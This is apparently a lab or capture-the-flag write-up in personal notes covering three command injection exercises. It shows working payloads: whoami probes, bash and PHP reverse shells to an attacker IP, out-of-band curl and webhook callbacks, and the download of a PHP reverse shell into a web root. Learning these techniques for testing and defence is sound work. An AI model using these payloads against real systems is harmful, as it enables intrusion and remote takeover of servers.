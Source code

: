 In this case we are able to inject commands that are executed by the server.

# Command injection 0x01
In this case we can see that we can pass an url that is executed in the command:
- ![[Pasted image 20250104235110.png]]


So basically we can try to use 
```bash
; whoami; hello
```

And we get:
- ![[Pasted image 20250104235323.png]]
- this because we make grep command fail with hello


So what we can try to do is to perform a reverse shell.
We can find all the payloads here [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)


So we can run:
```bash
; bash -i >& /dev/tcp/OUR_ATTACK_IP/4242 0>&1;
```

This will work if we have open a netcat connection on our host:
```bash
nc -nlvp 4242
```


But it doesn't work. We can see that `PHP` is used so maybe we can use it to execute a shell:
```bash
; which php; hello
```

At this point we can execute it:
```bash
; /usr/local/bin/php php -r '$sock=fsockopen("OUR_ATTACKER_IP",4242);exec("/bin/sh -i <&3 >&3 2>&3");' ; hello
```

And we obtain a shell:
- ![[Pasted image 20250105000710.png]]



# Blind Out-of-band CMD Injection Injection 0x02

In this case we have a similar situation but we don't know the result, because we cannot see anything:
- ![[Pasted image 20250105000907.png]]

We can see that `;` is filtered...


So what we can try to do is to use `webhook` in order to send a request and see if we get it and if the cmd injection works:
```bash
webhook_site?`whoami`
```
- ![[Pasted image 20250105001032.png]]
- we can see that we received the executed `whoami`



We can also use python to create a server on our machine:
```bash
python3 -m http.server 8080
```


And then use:
```bash 
website && curl OUR_IP:8080/test
```
- ![[Pasted image 20250105001249.png]]
- we can see that it works

So we create a file to perform a reverse shell and we serve it in the folder with python:
```bash
cp /usr/share/webshells/laudanum/php/php-reverse-shell.php

nano php-reverse-shell.php (update ip and port)

python3 -m http.server 8080
```


At this point we get it on the victim command injection:
```bash
website && curl OUR_IP:8080/php-reverse-shell.php > /var/www/html/reverse.php
```

Now we have passed the file to the victim and we can open `localhost/rev.php`:
- ![[Pasted image 20250105001758.png]]

At this point we have a shell:
- ![[Pasted image 20250105001821.png]]



# Challeng CMD injection 0x03
In this case we have an application that allows us to redirect a vehicle and to manage the position of it:
- ![[Pasted image 20250106154110.png]]

We can easily see that it uses the `awk` command injecting in it the position `x y` we send in input.


So we can try to do the injection.

So the command executed is `awk 'BEGIN {print sqrt(((-x)^2 + ((-y)^2))}`

So we want to break it trying to insert
```bash
Y_value)^2))}' ; whoami
```
- but we don't get any result, it is insert into the brachets
- ![[Pasted image 20250106154517.png]]

So we try to break it and to comment the part on the right:
```bash
Y_value)^2))}' ; whoami; #
```
- we get the result now
- ![[Pasted image 20250106154621.png]]


Let's get a shell:
```bash
Y_value)^2))}' ; php php -r '$sock=fsockopen("OUR_IP",4242);exec("/bin/sh -i <&3 >&3 2>&3");' ; #
```
- we have to lunch in our host `nc -nvlp 4242`
- ![[Pasted image 20250106154828.png]]

